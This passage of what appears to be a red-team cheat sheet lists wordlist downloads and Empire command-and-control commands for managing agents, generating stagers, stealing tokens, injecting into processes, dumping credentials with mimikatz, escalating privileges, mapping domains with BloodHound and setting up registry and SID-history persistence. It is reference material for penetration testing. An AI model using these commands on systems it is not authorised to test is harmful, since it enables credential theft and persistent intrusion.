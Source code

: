 ```c
c2ops@c2:~/opt/wordlists/rockyou$ wget https://gitlab.com/kalilinux/packages/wordlists/-/raw/kali/master/rockyou.txt.gz
c2ops@c2:~/opt/wordlists/rockyou$ gunzip rockyou.txt.gz
```

### SecLists

```c
c2ops@c2:~/opt/wordlists$ git clone https://github.com/danielmiessler/SecLists.git
```

## Empire

### Basic Commands

```c
(Empire) > listeners                      // list current running listeners
(Empire) > uselistener                    // configure listener
(Empire) > agents                         // list available agents
(Empire) > kill <NAME>                    // kill a specific agent
(Empire: listeners/http) > info           // provide information about used listener or module
(Empire: listeners/http) > back           // get back from current menu
(Empire: listeners) > usestager           // creating payloads
(Empire: agents) > rename <NAME> <NAME>   // renaming specific agent
(Empire: agents) > interact <NAME>        // interacting with specific agent
(Empire: agents) > searchmodule <NAME>    // search for a specific module
(Empire: <NAME>) > usemodule <NAME>       // use a specific module
(Empire: <NAME>) > sysinfo                // show system information
(Empire: <NAME>) > creds                  // show credentials
(Empire: <NAME>) > download               // download files
(Empire: <NAME>) > upload                 // upload files
(Empire: <NAME>) > sleep <60>             // set agent communication to sleep for 60 seconds
(Empire: <NAME>) > steal_token            // impersonate access token
(Empire: <NAME>) > shell [cmd]            // open a shell with cmd.exe
(Empire: <NAME>) > ps                     // show running processes
(Empire: <NAME>) > psinject               // inject agent to another process
(Empire: <NAME>) > scriptimport           // load powershell script
(Empire: <NAME>) > mimikatz               // executes sekurlsa::logonpasswords
(Empire: <NAME>) > usemodule privesc/getsystem            // try privilege escalation
(Empire: <NAME>) > usemodule privesc/sherlock             // run sherlock
(Empire: <NAME>) > usemodule privesc/powerup/allchecks    // perform privilege escalation checks
(Empire: <NAME>) > usemodule situational_awareness/host/antivirusproduct    // provides information about antivirus products
(Empire: <NAME>) > usemodule situational_awareness/host/applockerstatus     // provides information about applocker status
(Empire: <NAME>) > usemodule situational_awareness/host/computerdetails     // provides information about event ids 4648 (RDP) and 4624 (successful logon)
(Empire: <NAME>) > situational_awareness/network/get_spn                       // provides information about spns
(Empire: <NAME>) > situational_awareness/network/powerview/get_domain_trust    // show information about domain trusts
(Empire: <NAME>) > situational_awareness/network/powerview/map_domain_trust    // map information about domain trust
(Empire: <NAME>) > situational_awareness/network/bloodhound3                   // load bloodhound module
(Empire: <NAME>/situational_awareness/network/bloodhound3) > set CollectionMethodAll    // configure bloodhound module
(Empire: <NAME>/situational_awareness/network/bloodhound3) > run                        // run the module
(Empire: <NAME>) > download *bloodhound*                                                // download the module
(Empire: <NAME>) > usemodule powershell/persistence/elevated/registry    // registry persistence
(Empire: <NAME>) > usemodule persistence/misc/add_sid_history            // sid history persistence
```